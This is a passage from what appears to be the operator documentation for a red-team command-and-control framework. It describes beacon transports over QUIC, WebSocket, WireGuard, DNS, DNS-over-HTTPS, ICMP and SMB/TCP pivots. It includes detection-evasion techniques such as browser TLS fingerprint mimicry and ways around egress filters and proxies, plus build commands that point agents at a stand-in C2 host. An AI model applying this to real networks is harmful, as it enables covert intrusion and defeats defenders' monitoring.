  **The builder enforces this.** A `transport_mode` that contains
  `quic` alongside any other mode is refused at build time with an
  error naming the offending combination; no binary is emitted.
  For failover between HTTP and QUIC, build two binaries with
  different transports and deploy both — the pull-based model does
  not care how many agents are running against one handler.

**Build flag (handler side):**

| Flag | Default | Effect |
|------|---------|--------|
| `--beacon-quic-port <n>` | *(none)* | Bind the QUIC listener to this UDP port. Pass `0` to disable explicitly. When unset, the transport is off |

**Build invocation (agent side):**

```
beacon-build linux amd64 --transport quic \
        --url https://c2.example.com:8885
```

The `--url` port must match the handler's `--beacon-quic-port` value.
The handler's `/identify` response advertises the running QUIC port
so the operator client's build wizard defaults the callback URL
correctly for a QUIC-only build; override the prompt only if the
listener is behind a redirector or a NAT translation.

**ClientHello fingerprint.** QUIC composes its own TLS 1.3
ClientHello inside the QUIC Initial packet. Go's QUIC stack does not
accept a uTLS dialer, so `--tls-profile` is accepted by the builder
but ignored at runtime for a QUIC-only build.

The QUIC client is nevertheless shaped to match a modern browser's
HTTP/3 stack as closely as Go's QUIC library allows:

- **TLS 1.3 only.** `MinVersion` is pinned to `tls.VersionTLS13`.
  QUIC has no TLS 1.2 fallback path by design.
- **ALPN `h3`.** The `NextProtos` list carries only the h3
  identifier, matching what Chrome, Firefox, and Edge advertise on
  their own QUIC connections.
- **Chrome's curve list.** `X25519`, `P-256`, `P-384`, in that
  order — the same ordered preference Chrome uses.
- **Chrome's cipher suite list.** `TLS_AES_128_GCM_SHA256`,
  `TLS_AES_256_GCM_SHA384`, `TLS_CHACHA20_POLY1305_SHA256`, in that
  order — again, Chrome's order.
- **Keepalive and idle timeouts** are set on the QUIC connection
  (60 s idle, 10 s keepalive) so a beacon that polls on a slow
  schedule does not appear as a half-open connection on the wire.

The result is a ClientHello whose cipher and curve lists are
byte-identical to Chrome's. It is not byte-identical to Chrome's
ClientHello overall — the extensions and their order are determined
by the QUIC library, not by the operator — but a passive observer
who fingerprints the handshake sees a modern browser-shaped HTTP/3
client rather than a Go one.

**C2 profile.** The C2 profile applies to QUIC the same way it
applies to HTTP: the paths, User-Agent, and extra headers are
carried through unchanged; the shaping block controls the response
body; per-shape encoding and placement apply; per-role status codes
are honoured; the profile's `cookie_name` names the session cookie;
and the `response_headers` block is merged onto every successful
response. `--c2-profile chrome --transport quic` produces a QUIC
agent whose HTTP-shaped metadata matches a Chrome analytics client.

**Placement works on both kinds.** Unlike WebSocket — where a
`placement: header` or `placement: cookie` block has nowhere to
write, because the frame is JSON rather than HTTP — QUIC carries
real HTTP/3 headers. The QUIC listener subclasses `BeaconListener`
and returns the Flask response verbatim, so header and cookie
placement travel back on the HTTP/3 response exactly as they do on
HTTP/1.1. The Go QUIC client calls the same `extractEnvelope` helper
the HTTP transport uses, so a shaped envelope that lives in an
`X-Request-ID` header or a `Set-Cookie` value is recovered
identically on both transports.

**Scheduling headers work identically.** The `X-Beacon-Sleep`,
`X-Beacon-Jitter`, `X-Beacon-Kill`, `X-Beacon-WorkStart`, and
`X-Beacon-WorkEnd` headers travel on every `/tasks` response exactly
as they do on the HTTP transport. The Go QUIC client parses them
through the same code path. Sleep interval, jitter, kill deadline,
and the working-hours window are therefore all runtime-configurable
on a QUIC session, matching HTTP.

**Threat model.** QUIC protects against TCP-only egress filters and
against a transparent TCP proxy that terminates and inspects HTTP/1.1.
It does not protect against UDP egress filtering that is applied
uniformly (a network that blocks all UDP except an internal resolver
reaches the QUIC listener only if the QUIC port is explicitly
permitted), and it does not hide the SNI in the ClientHello — the
SNI is visible unless Encrypted Client Hello is in use, which Go's
QUIC stack does not implement.

### WebSocket

`beacon/transport/websocket.py` — `WebSocketListener`. Runs on
`--ws-port`, terminates TLS itself, and serves a single WebSocket
endpoint — `/ws` by default, overridable by a C2 profile's
`beacon_path`. The wire body inside each frame is identical to the
HTTP transport's JSON body, so wire encryption and malleable shaping
apply unchanged.

**Design: open, round-trip, close.** Each sleep cycle opens a
WebSocket, does one request/response, and closes. The connection is
not held between cycles. This preserves the pull-based resilience
model — a dead socket is a just a failed cycle, and the beacon
retries on its next wake-up — and means there is no long-lived
connection for a network monitor to flag and no writer goroutine
coordination on the client side.

**When to use it.** Networks where a raw HTTPS GET to a non-browser
path is proxied and inspected, but WebSocket upgrades to a
browser-shaped endpoint are permitted because the enterprise's own
chat, collaboration, and analytics SaaS clients depend on them. The
WebSocket handshake is a legitimate-looking upgrade on the wire, and
the frame payload inside is the same JSON the HTTP transport would
have carried over a plain request/response pair.

**Requirements:**

- `simple-websocket` on the handler
  (`pip install simple-websocket`). The listener refuses to start
  without it and leaves the other transports running.
- `github.com/coder/websocket` in the agent's `go.mod`. Run
  `go mod tidy` inside `agent/` after adding the transport.
- The agent's `transport_mode` must be `websocket` alone. In this
  version, WebSocket cannot be combined with another transport in
  the same binary: the session cookie is one value and the two
  transports carry it differently.

**Build flag (handler side):**

| Flag | Default | Effect |
|------|---------|--------|
| `--ws-port <n>` | *(none)* | Bind the WebSocket listener to this TCP port. Uses the same certificate material as the HTTP listener |
| `--ws-host <addr>` | *(none)* | Bind address. Defaults to `--host` |

**Build invocation (agent side):**

```
beacon-build linux amd64 --transport websocket \
        --url https://c2.example.com:8884
```

The `--url` port must match the handler's `--ws-port`. The scheme is
converted to `wss://` at dial time by the client, so the same value
the operator typed as the callback URL works for both HTTP and
WebSocket builds.

**TLS ClientHello fingerprint.** WebSocket speaks real TLS, and the
`--tls-profile` build flag applies. The WebSocket dialer is fed an
`*http.Client` whose transport routes the handshake through the same
`tlsfp.NewHTTPClient` helper the HTTP transport uses, so a
`--tls-profile chrome --transport websocket` build produces a
ClientHello byte-identical to what the HTTP transport would send on
the same profile. The default `--tls-profile go` leaves the
handshake on the standard library's default.

The C2 profile's paths, User-Agent, and extra headers also travel
on the WebSocket upgrade request, so the request shape and the TLS
fingerprint both match the profile the operator selected.

**C2 profile.** The C2 profile applies to WebSocket the same way it
applies to HTTP: the paths, User-Agent, and extra headers are carried
through unchanged. The default path is `/ws`; a C2 profile that
declares `beacon_path`, `tasks_path`, and `results_path` supplies
the handshake path for the corresponding verb. The agent opens a
fresh WebSocket per verb with that verb's path, and the listener
routes the upgrade to the profile that declared it — the same
path-as-profile mechanism HTTP uses.

**mTLS is not supported.** `simple-websocket` does not expose the
peer certificate after the TLS handshake, so a WebSocket connection
that the TLS layer validated as mTLS cannot be attributed to a
specific client certificate at the application layer. A handler that
enforces `--beacon-mtls-ca` will accept or reject WebSocket
connections at the TLS layer as normal, but the per-session peer
identity that mTLS provides is not available over WebSocket.

**Threat model.** WebSocket protects against TLS-terminating proxies
that permit WebSocket upgrades while blocking or inspecting raw
HTTPS GETs — a common pattern in enterprise DLP and CASB deployments
where the proxy has been configured to whitelist specific SaaS
endpoints. It does not protect against a proxy that terminates the
WebSocket upgrade and inspects frames, and it does not hide the SNI
in the handshake ClientHello.

### WireGuard

`beacon/transport/wireguard.py` — `WireGuardTransport`. Runs on
`--wireguard-port` (default UDP 51820), terminates the WireGuard
handshake itself, and serves the same three endpoints as the HTTP
listener over a private tunnel IP inside the WireGuard tunnel. The
agent runs a matching userspace WireGuard device and dials the
server's tunnel IP; the C2 protocol runs over the tunnel.

**Design: kernel WireGuard on the server, userspace on the agent.**
The team server creates a kernel WireGuard interface through
`pyroute2`'s netlink binding; the interface is provided by the
kernel's `wireguard` module. The agent runs a userspace WireGuard
stack pulled in through its own Go module, so nothing needs to be
installed or elevated on the target. Both peers share an
engagement keypair; the server's public half is baked into the
agent at build time, and the operator pins the agent's public half
on the server after deployment.

The beacon appears on a private subnet — default `10.99.0.0/24` —
and connects to `10.99.0.1:8881` inside the tunnel. The outer HTTP
listener, bound to `0.0.0.0` on the beacon port, accepts the
request when it arrives on the WireGuard interface; there is no
separate inner listener and therefore no port collision between
the two.

**Requirements on the team server:**

- `pyroute2` (`pip install pyroute2`).
- The `wireguard` kernel module loaded. Most distros load it
  automatically on first use; `modprobe wireguard` forces it, and
  a line in `/etc/modules-load.d/wireguard.conf` makes it
  persistent across reboots.
- `CAP_NET_ADMIN` on the Python process. Either run the handler as
  root, or `setcap cap_net_admin+ep $(which python3)`.
- `wireguard-tools` on `PATH` for the one-time server keypair
  generation on first launch. The `wg` command ships in that
  package. Not required after `.keys/wireguard/server.key` exists.

**Requirements on the agent side:**

- `github.com/chrj/wgnet` in the agent's `go.mod`. Run
  `go mod tidy` inside `agent/` after adding the transport. The
  userspace WireGuard stack is linked into the binary at build
  time; there is no runtime dependency on the target.
- The agent's `transport_mode` must be `wireguard` alone. In this
  version, WireGuard cannot be combined with another transport in
  the same binary.

**When to use it.** Networks that filter or proxy TCP/443 but permit
arbitrary UDP. A network policy built around "block everything except
DNS, HTTP, and HTTPS" — common in OT segments, some cloud VPC
security groups, and networks that rely on a transparent TCP proxy —
reaches the WireGuard listener as a stream of UDP packets that look
like any other VPN traffic on the wire.

**Build flags (handler side):**

| Flag | Default | Effect |
|------|---------|--------|
| `--wireguard` | off | Enable the WireGuard listener |
| `--wireguard-port <n>` | `51820` | UDP port for the WireGuard listener |
| `--wireguard-subnet <cidr>` | `10.99.0.0/24` | Tunnel subnet. The server takes the first usable address |
| `--wireguard-server-ip <ipv4>` | `10.99.0.1` | Server IP inside the tunnel. Must match the build's `wireguard_server_tunnel_ip` / `--wireguard-server-tunnel-ip` value |

**Build flags (agent side):**

| Flag | Required | Effect |
|------|----------|--------|
| `--wireguard-server-pubkey <base64>` | yes | The server's WireGuard public key |
| `--wireguard-server-addr <host:port>` | yes | The server's UDP listener, as reachable from the target |
| `--wireguard-agent-privkey <base64>` | yes | The agent's WireGuard private key |
| `--wireguard-tunnel-ip <ipv4>` | yes | The agent's IPv4 address inside the tunnel |
| `--wireguard-server-tunnel-ip <ipv4>` | no | The server's IPv4 address inside the tunnel. Defaults to `10.99.0.1`. Must match the handler's `--wireguard-server-ip` value |

**Two tunnel IPs, easy to conflate.** The build carries two tunnel
addresses: the agent's own, and the server's. Getting the second one
wrong produces a beacon that never checks in with no server-side log
line — WireGuard silently drops packets aimed at an address that is
not the peer's. The table below names both, plus the three other
WireGuard fields, and where each comes from:

| Field | What it is |
|-------|------------|
| `--wireguard-server-pubkey` | The server's WireGuard public key, base64. Printed by the handler at startup. |
| `--wireguard-server-addr` | The server's outer UDP listener, `host:port`. This is the port a network observer sees. |
| `--wireguard-agent-privkey` | The agent's WireGuard private key, base64. Generated out of band with `wg genkey`. |
| `--wireguard-tunnel-ip` | The agent's own address inside the tunnel. `10.99.0.2` for the first agent. |
| `--wireguard-server-tunnel-ip` | The server's address inside the tunnel. Defaults to `10.99.0.1`. Must match the handler's `--wireguard-server-ip`. |
| `--wireguard-inner-port` | The HTTPS port the agent dials on the server's tunnel IP. Must match the handler's `--beacon-port`. |

**Key distribution.** Unlike every other transport, the WireGuard
keypairs are not generated by the builder. The server generates its
own keypair on first run and prints the public half at startup; the
operator generates an agent keypair out of band with
`wg genkey | tee agent.key | wg pubkey` and pastes the private half
into the build. The public half is pinned on the server after the
agent is deployed:

```
beacon> wireguard add-peer <agent-pubkey> 10.99.0.2
```

Until the peer is pinned, the server's WireGuard device silently
drops the agent's packets — WireGuard does not accept traffic from
an unknown peer. This is the same trust-on-first-use model as the
check-in path: the operator is the one who decides which peer public
key is legitimate.

**Build invocation (agent side):**

```
beacon-build linux amd64 --transport wireguard \
        --wireguard-server-pubkey <base64> \
        --wireguard-server-addr c2.example.com:51820 \
        --wireguard-agent-privkey <base64> \
        --wireguard-tunnel-ip 10.99.0.2
```

**C2 profile.** The C2 profile applies to the inner HTTPS request
the agent makes through the tunnel. The profile's paths,
User-Agent, extra headers, shaping block, per-shape encoding and
placement, per-role status codes, cookie name, and response
headers all travel through the tunnel and are processed by the
listener on the far side. The one thing the profile cannot control
is the outer WireGuard handshake — the message-type bytes,
handshake timing, fixed-length keys, and outer UDP port are set by
the WireGuard protocol and by the four `--wireguard-*` build
flags, not by any profile field.

**TLS ClientHello fingerprint.** The inner HTTPS connection the
agent makes to the server's tunnel IP is a real TLS handshake, but
**the `--tls-profile` build flag has no effect on it.** The inner
connection uses the Go standard library's `crypto/tls`, not uTLS.
This is a smaller gap than the WebSocket case: the inner TLS never
crosses the public wire — a network observer sees only the
WireGuard handshake, which carries no ClientHello at all — so the
missing uTLS profile is invisible to anything outside the tunnel.
See [What this tool does not claim](#what-this-tool-does-not-claim)
for the full list of transports that carry this limitation.

**Threat model.** WireGuard protects against TCP-only egress filters
and against a transparent TCP proxy that terminates and inspects
HTTP/1.1. A network monitor sees a stream of UDP packets to a
single remote port, encrypted end to end, with no SNI and no
HTTP headers. What the monitor *does* see is a WireGuard handshake —
the well-known message-type bytes and the handshake timing pattern
are unmistakable to anyone who has a WireGuard fingerprint in their
detection set. The tunnel protects the content, not the protocol.

### DNS TXT

`beacon/transport/dns.py` — `DNSTransport`. Runs on `--dns-port`,
serves TXT records for a configured `--dns-domain`. Opt-in: both
flags must be set. Wire format (labels, left to right):

```
<verb>.<sid>.<xfer>.<seq>.<total>.<len>.<chunk>.<domain>
```

- `verb` — `b` (check-in), `t` (tasks), `r` (results). These are the
  defaults; a profile that declares a `dns_label` block can rename
  them. See [C2 Profiles › DNS label shaping](#dns-label-shaping)
- `sid` — 16-hex session token; `new` on check-in
- `xfer` — 16-hex transfer id, unique per logical request
- `seq` — 4-hex zero-indexed chunk sequence number
- `total` — 4-hex total number of chunks in this transfer
- `len` — 2-hex count of meaningful characters in `chunk`
- `chunk` — base64url of a slice of the payload; a filler `0` when
  the chunk is empty, because a DNS label may not be zero-length
- `domain` — the configured zone

The chunk label is case-sensitive (base64url) and is never
lowercased; the structural labels are lowercased on receipt. A
response body longer than 255 base64 characters is split across
multiple length-prefixed strings inside one TXT RR and reassembled
by the client.

A multi-chunk logical request is a *sequence* of queries, one per
chunk. The server sends an empty TXT record as an ACK for chunks
`0..total-2`; the client only reads the reply to the final chunk.
The transport allows up to 1000 chunks per transfer.

**UDP with a TCP fallback.** The listener binds both a UDP and a
TCP socket on `--dns-port`. The agent sends every chunk over UDP
first; when a UDP response carries the DNS TC (truncated) bit, the
client retries that chunk over TCP. This matters because a TXT
reply larger than 512 bytes does not fit in a plain UDP packet and
the Go DNS library does not auto-fallback — without the retry,
every check-in or tasks reply above that size would silently lose
its payload. A 512-byte UDP ceiling therefore applies to individual
replies, but the effective per-reply ceiling on the TCP path is
much higher. The listener starts both sockets with no additional
configuration.

**Wire encryption.** The check-in and result payloads are wrapped
in the same AES-256-GCM envelope the HTTP transport uses, when the
agent was built with the server ECDH key embedded. The envelope
travels *inside* the base64url chunk, so a passive observer sees
the query structure — the verb character, session token, transfer
id, sequence number, chunk length — but not the payload content.
The framing is plaintext; the body can be ciphertext. This is the
same split the HTTP transport makes between its URL paths and its
request body.

**Sessions on this transport are not cookies.** The HTTP transport
identifies a session with an HMAC-signed cookie. DNS has no cookie
jar, so the server mints a random 16-hex-character token on each
check-in and returns it in the reply body as `_dns_sid`. The agent
includes the token as the second label of every subsequent query.
Tokens live in the listener's memory and are lost on restart; a
beacon that was mid-session re-checks-in on its next wake-up,
which is the same behaviour a stale cookie produces. The session
token format is validated on receipt — a 16-hex string is the only
shape the listener accepts.

**The per-chunk payload length defaults to 63 base64url characters**
— the maximum a single DNS label can hold. A profile that declares
a `dns_label.payload_chunk_size` smaller than 63 changes the
client's chunking so the queries look less like a fixed-shape
tunnel to a label-length heuristic. The Python listener reads the
same value from the profile and validates each label against it.
The verb characters default to `b`/`t`/`r`; the profile can rename
them.

**Server-side rate limiting.** A per-source-IP token bucket caps
the query rate at 20 requests per second sustained, 200 burst.
Over-limit requests receive RCODE 5 (REFUSED) before any parse
work. The state map is pruned every two minutes, dropping entries
idle for more than ten minutes.

**Size ceiling.** The DNS transport caps a logical request at 1000
chunks of 63 base64url characters each, roughly 47 KiB of raw
payload. This is sufficient for check-in, task polls, and result
bodies in normal use. It is not sufficient for BOF delivery or
in-memory payload staging; those require the HTTP transport or a
relay. A reply above ~400 base64url characters produces a warning
on the listener console (`DNS UDP budget`) rather than a refusal —
the check-in or tasks reply still goes through, over TCP if the
UDP path cannot carry it.

**Scheduling parameters travel as tasks, not headers.** The HTTP
transport pushes `sleep`, `jitter`, `kill deadline`, and the
working-hours window as `X-Beacon-*` response headers on every
`/tasks` reply. DNS has no response headers, so the listener
instead injects synthetic `sleep` and `workhours` tasks into the
`/tasks` response when a value changes. The agent's normal task
dispatch applies them the same way an operator-typed `sleep` or
`workhours` would.

**The kill deadline cannot be delivered on DNS.** The agent has no
native verb for setting a kill deadline and the HTTP path carries
it purely as a header. A DNS-transport session therefore keeps its
**build-time** kill deadline for its whole life. Changing it
requires rebuilding the agent. Operators who rely on the kill
deadline as an accountability mechanism should account for this
before deploying a DNS-only beacon, or schedule a `kill` task
before the deadline as a substitute.

### DNS over HTTPS (DoH)

`beacon/transport/doh.py` (client) — the same wire format as the DNS
transport, but every DNS message is wrapped in an RFC 8484
`application/dns-message` POST to a public DoH endpoint. The public
resolver (Cloudflare, Google, Quad9) recursively resolves the query
against the C2's authoritative NS and returns the TXT answer. From
the C2's perspective a DoH query is indistinguishable from a UDP DNS
query; the server needs no special handling.

**When to use it.** UDP/53 egress is commonly blocked by corporate
firewalls and cloud network policies. HTTPS/443 almost never is. The
DoH endpoints are the exact URLs Firefox, Chrome, Edge, and Brave
contact for their own automatic DoH; blocking them breaks browsers,
whitelisting them exposes the C2 on the whitelist.

**The C2 must still run the DNS transport.** The public resolver
forwards to the C2's authoritative NS on UDP/53 and, when a TXT
reply exceeds the 512-byte UDP ceiling, retries on TCP/53. The
Python `DNSTransport` binds both sockets on `--dns-port` with no
additional configuration. Enable the DNS transport with
`--dns-port 53 --dns-domain c2.example.com` as usual. The DoH
client is the only side that changes.

From the C2's perspective a DoH-forwarded query is byte-identical
to a direct UDP query: same QNAME layout, same `dns_label` verbs,
same per-chunk payload length, same `_dns_sid` session mechanism.
The listener does not distinguish the two, and the same profile
that shapes DNS queries shapes DoH queries identically.

**Enabling TCP on the DNS listener.** The Python `DNSTransport`
starts a TCP listener alongside UDP on the same port. This is what
lets a public resolver ask for a large TXT response over TCP when the
DoH response exceeds 512 bytes. No configuration is needed; the
listener starts both.

**Build flags:**

| Flag | Default | Effect |
|------|---------|--------|
| `--doh-resolver <url>` | `https://cloudflare-dns.com/dns-query` | The DoH endpoint URL |
| `--doh-host <host>` | *(none)* | Optional `Host:` header override, for a self-hosted resolver behind a Cloudflare Worker |
| `--doh-ua <ua>` | Firefox 129 UA | User-Agent sent with every DoH POST |

The `--tls-profile` build flag applies to the DoH transport the same
way it applies to HTTP — the ClientHello fingerprint matters here too,
because the point of DoH is to blend with browser DoH traffic.

**Transport list:** `doh` — combinable with `http` and `dns` in a
comma-separated `transport_mode`. `http,doh` and `dns,doh` both work
with failover.

**Threat model.** DoH protects against UDP/53 egress filters and
passive DPI on the DNS channel. It does not hide the query from the
resolver (Cloudflare logs, Google logs for 24–48 h, Quad9 logs
anonymised telemetry), nor from a TLS-terminating enterprise proxy
that installs a root CA. The resolver-to-C2 hop is still unencrypted
UDP/53.

### ICMP echo

`beacon/transport/icmp.py` (server) — the agent sends an ICMP echo
request whose data field carries a JSON envelope with a base64url
chunk of the payload. The server reassembles the chunks, feeds the
payload through the same engine handlers the DNS transport uses,
and sends the response back as the data field of an ICMP echo
reply.

The Python `ICMPTransport` subclasses `DNSTransport` and inherits
the session machinery, chunk reassembly, TTL sweep, and the three
request handlers unchanged. Only the wire plumbing differs: DNS
parses its inputs from QNAME labels, ICMP parses them from a JSON
envelope in the ICMP data field.

**When to use it.** The rare network where only ICMP egress is
permitted — some OT segments, some cloud VPC security groups that
allow ping for reachability testing but nothing else.

**Requirements:**

- Linux only on both sides. The Python side refuses to start on
  Windows, and the Go side refuses to build with `transport=icmp`
  for `target_os=windows`.
- The team server needs `CAP_NET_RAW` on the Python process. Run
  the handler as root, or `setcap cap_net_raw+ep $(which python3)`.
  Without the capability the listener logs a refusal and does not
  start; the other transports are unaffected.
- The C2's public IPv4 address must be reachable from the target.
  This is a build-time flag, `--icmp-host`.
- **The agent dials IPv4 only.** The Go client opens an `ip4:icmp`
  raw socket and sends to the address given by `--icmp-host`. There
  is no IPv6 path in the shipped agent.
- **The listener also opens an IPv6 raw socket when the host allows
  it.** If `socket.AF_INET6` and `IPPROTO_ICMPV6` are available, the
  Python `ICMPTransport` starts a second receive loop and responds
  to ICMPv6 echo requests with ICMPv6 echo replies. This is
  opportunistic — a host without IPv6 support simply runs with the
  IPv4 socket alone, with no warning and no failed startup. The
  feature exists so a future IPv6-capable agent build has a listener
  waiting; it does not affect a deployment that uses only the
  shipped IPv4 agent.

**Build flag:**

| Flag | Default | Effect |
|------|---------|--------|
| `--icmp-host <ipv4>` | *(required)* | The C2's public IPv4 address as reachable from the target |

**Wire format.** The ICMP data field is a magic prefix (`TC2\x01`)
followed by a JSON envelope:

```json
{"v": "<b|t|r>", "sid": "<16-hex>", "x": "<16-hex>",
 "s": <seq>, "t": <total>, "c": "<base64url chunk>"}
```

The magic prefix lets the server distinguish its own traffic from
unrelated `ping` on the interface.

**Chunking and size limits.** The wire format is not the same as
DNS — the numbers are larger across the board because the ICMP data
field can carry far more than a single DNS label.

| Quantity | DNS | ICMP |
|---|---|---|
| Per-chunk payload | 63 base64url chars | 900 base64url chars |
| Max chunks per transfer | 1000 | 200 |
| Wire-encryption envelope | entire chunk | entire chunk |
| Reply budget warning threshold | 400 base64url chars | 1000 base64url chars |
| Reply data field hard cap | ~400 base64url chars (UDP) | 1400 bytes total |

The effective raw-payload ceiling per logical request is
`200 × 900 × 3/4 ≈ 135 KiB` — three times larger than DNS's ceiling
and large enough for check-in, tasks, most results, and small BOFs.
It is not large enough for a full agent or a large uploaded file.

**Intermediate chunks are ACKed with an empty reply**, exactly as
they are on the DNS transport. The client only reads the reply to
the final chunk; the intermediate ACKs exist so a UDP-style dropped
packet on chunk 7 of 20 does not silently discard the whole
transfer. The Go client retries each chunk up to three times with
the same transfer id, so a retransmit of a chunk that already
landed is idempotent.

**Reply cap and drop behaviour.** A response body whose envelope
would exceed the 1400-byte ICMP data-field cap is **dropped** by the
listener, not truncated. The listener logs a warning naming the
size and the transport — `icmp: reply body <N> bytes exceeds
1400-byte data-field cap; dropping. The task is too large for the
ICMP transport — use HTTP.` — and sends nothing back. The agent's
retry loop exhausts its three attempts and returns a timeout to the
caller. This is a deliberate fail-loud choice: a truncated reply
would decode as malformed JSON and look like a protocol bug rather
than an operational one.

**The session token field is `_dns_sid`, not `_icmp_sid`.** The
Python `ICMPTransport` subclasses `DNSTransport` and inherits the
session machinery unchanged, including the JSON field name. A tool
author writing an ICMP client against this protocol should read and
echo `_dns_sid` on the check-in reply, exactly as a DNS client
would. This is a historical artifact of the subclass relationship,
not a design choice, but it is what the wire carries.

**Threat model.** ICMP-over-C2 is a well-known technique and appears
in every network security monitoring curriculum. A monitor watching
ICMP data field length and entropy will flag it on the first
check-in — the `TC2\x01` magic prefix and the base64url alphabet of
the data field are both trivially distinguishable from a normal
`ping`. Use ICMP when the network leaves no other path; prefer DoH
or HTTP when it does.

**Practical size ceiling.** The 1400-byte data-field cap is the
number operators hit first. A `download` of a file larger than
roughly 130 KiB, a `bof` whose COFF is larger than the same, or a
task whose result exceeds the cap all fail on the ICMP transport
with a listener-side warning and an agent-side timeout. HTTP is the
transport for anything large; ICMP is for check-in, small commands,
and small outputs. If the engagement will need file transfer or
in-memory payload delivery, plan for a failover ring that includes
HTTP rather than building an ICMP-only agent.

**Server-side rate limit.** A per-source-IP token bucket caps the
query rate at 20 requests per second sustained, 200 burst — the
same values the DNS transport uses. Over-limit requests are dropped
before any parse work. The state map is pruned every two minutes,
dropping entries idle for more than ten minutes.

### HTTP+DNS / HTTP+DoH / DNS+DoH failover

`transport_mode: "http,dns"` builds a single binary with both
transports linked in and `transport_failover_after` consecutive
transport-level failures triggering a rotation. Session-level
failures (expired cookie, forgotten session) do not count; they are
fixed by a fresh check-in on the same transport.

Rotation is a ring, not a preference list. Once the agent rotates,
it stays on the new transport until that one also fails N times.

### SMB, TCP bind, and TCP reverse

All three are **pivot transports**. A child beacon cannot reach the
team server directly, so it establishes an authenticated, encrypted
peer-to-peer session with a parent beacon, which carries the child's
C2 traffic over the parent's own HTTP/DNS transport. See
[Pivot Transports](#pivot-transports) for the full model.

The three differ only in who dials whom:

| Transport | Listener | Dialer | When to use |
|---|---|---|---|
| `smb` | parent (named pipe) | child | Windows segment; child can reach the parent's SMB share |
| `tcp` (bind) | child (TCP port) | parent | Parent can reach a TCP port on the child's host |
| `tcprev` (reverse) | parent (TCP port) | child | Child can reach a TCP port on the parent's host, but the parent cannot reach the child |

All three can run at once. A beacon built for any of them reaches
the same engine; the engine does not care which wire the bytes
arrived on.

---

## Pivot Transports

SMB, TCP bind, and TCP reverse solve the same problem: **the target
has no path to the team server, or the team server has no path to
the target**. A parent beacon that does have reachable transport
carries the child's C2 traffic.

Unlike a transparent relay, the parent in a pivot deployment performs
a **peer-to-peer handshake** with the child. The two beacons share a
pivot keypair that is baked into both at build time; the handshake
authenticates the parent to the child (via the pivot private key held
only by the parent) and lets both sides derive independent
per-direction session keys. The child's C2 frames travel *inside*
this pivot session, encrypted end to end.

### The pivot model

```
   [team server]
        ▲
        │ HTTPS (parent's own transport, server ECDH)
        │
   ┌────┴─────┐
   │ Parent   │  (has pivot private key + own HTTP transport)
   │  pivot   │  Maps op → path, sets X-Relay-Child, forwards
   │ listener │  the child's C2 envelope opaquely.
   └────┬─────┘
        ▲
        │ SMB pipe, or TCP socket (bind or reverse)
        │ Pivot session: handshake, then length-prefixed AEAD frames
        │ Payload: {"op": "beacon"|"tasks"|"results", "body": <c2>}
        │
   ┌────┴─────┐
   │  Child   │  (has pivot public key + own server ECDH)
   │  pivot   │  Sends op codes, not URL paths. Its own C2
   │  client  │  envelope travels inside the pivot body.
   └──────────┘
```

The parent reads a pivot frame from the child, decrypts it with the
child's directional key, and forwards the *plaintext* C2 body to
`/beacon`, `/tasks`, or `/results` on the team server with the
`X-Relay-Child` header. The team server sees a new beacon — a distinct
session with its own ID — and treats it identically to a
directly-connected beacon.

The parent never inspects or modifies the child's C2 body. The child's
C2 body may itself be a server-ECDH envelope; the parent carries it
verbatim.

**A relayed child whose fingerprint matches its parent's is
refused.** Two agents reporting the same `machine_id` / `hostname` /
`username` / `os` and the same `identity_role` are, from the
server's perspective, the same session — the parent would be
forwarding frames on behalf of itself. The engine refuses the
relayed check-in with a log line naming the fix: set a distinct
`identity_role` on the child, or rebuild one of the two with a
role. This is a deliberate refusal rather than a silent collision,
because a silent collision produces two processes fighting over one
task queue with no diagnostic surface.

### The pivot keypair

One ECDSA P-256 keypair per engagement. Generate with:

```
beacon> beacon-build --pivot-key-gen
generated pivot keypair
  file   : mtls_certs/pivot.pem
  private: <base64 PKCS8 DER>
  public : <base64 SPKI DER>
```

The command writes the PEM file to the printed path and prints both
halves. The file is what later builds read; capturing the base64
from the console is optional. Pass the same file to every build:

```
beacon-build windows amd64 --url https://c2.example.com:8881 \
    --smb-relay-pipe tornado_relay_001 \
    --pivot-key mtls_certs/pivot.pem
# parent: embeds the private half

beacon-build windows amd64 --transport smb \
    --smb-pipe tornado_relay_001 \
    --pivot-key mtls_certs/pivot.pem
# child: embeds the public half
```

The builder picks the correct half based on the build's role: parent
if `--smb-relay-pipe`, `--tcp-relay`, or `--tcp-rev-listen` is set,
child if `--transport smb`, `--transport tcp`, or
`--transport tcprev` is set.

**Trust model.** The pivot private key is a single point of
compromise for the parent-to-child hop. An attacker who recovers it
from a parent binary can impersonate the parent to any child, but
cannot decrypt the child's C2 traffic to the team server — that
requires the server ECDH key. The pivot public key is not a secret;
it is embedded in every child and can be recovered by anyone who
captures a child binary.

**File permissions.** `beacon-build --pivot-key-gen` writes the PEM
atomically — a temp file in the target directory, `chmod 0600`,
then `os.replace` — so the private half is never briefly readable
by another local user and a concurrent read cannot see a
half-written file. The default output path is inside `mtls_certs/`,
which is the same directory the build path whitelist covers; the
whitelist does not need a separate entry for the pivot file.

**Note on the child side.** The child's identity signing key is
the same key embedded in every agent the team server builds. The
child's signature over the pivot handshake therefore proves
"possession of any agent binary from this team server", not
"possession of a key unique to this child". The TOFU pin by
fingerprint refuses a different key presented under a known
fingerprint, but it cannot distinguish one agent binary from
another, because all of them carry the same key.

This is deliberate — the shared key makes rebuilding idempotent
across deployments — but an operator who wants the pivot
handshake to bind a specific child binary to a specific keypair
must supply a per-build `agent_keypair_path`. The build config
accepts it; the handler does not set it by default.

**Same-host pivots and the identity role.** A parent and child
that run on the same host under the same user report identical
`machine_id` / `hostname` / `username` / `os` tuples. Without
intervention, both would resolve to one session, one cookie, one
task queue, and one row in the beacon list — and the server has no
way to tell them apart. This is a deployment property, not a bug,
but it produces confusing behavior: tasks queued for one process
may be popped by the other, and the console shows one beacon where
two are running.

The fix is the **identity role**, documented in
[Session lifecycle](#session-lifecycle). The builder defaults the
role to `smb-child`, `tcp-bind`, or `tcp-rev` for the three pivot
child transports, so a child built with any of those defaults
gets its own fingerprint without operator action. The parent
build carries no role. Two sessions appear in the console; each
has its own cookie and its own task queue.

If the role is not set — an operator has explicitly set
`identity_role: ""` on a child build, or has bypassed the builder
entirely — the child shares the parent's session and the operator
sees one beacon. That is the correct behavior for a rebuild of an
existing agent, and the wrong behavior for a same-host pivot.

### The pivot handshake

On connect, the child sends:

```
{"pivot": "v2",
 "fingerprint": "<child fingerprint>",
 "pubkey": "<base64 SPKI DER of the child identity signing key>",
 "epk":         "<base64 ephemeral P-256 pubkey>",
 "sig":         "<base64 ECDSA over tornadoc2-pivot-child-v2|fingerprint|epk|ts>",
 "ts":          1735689600}
```

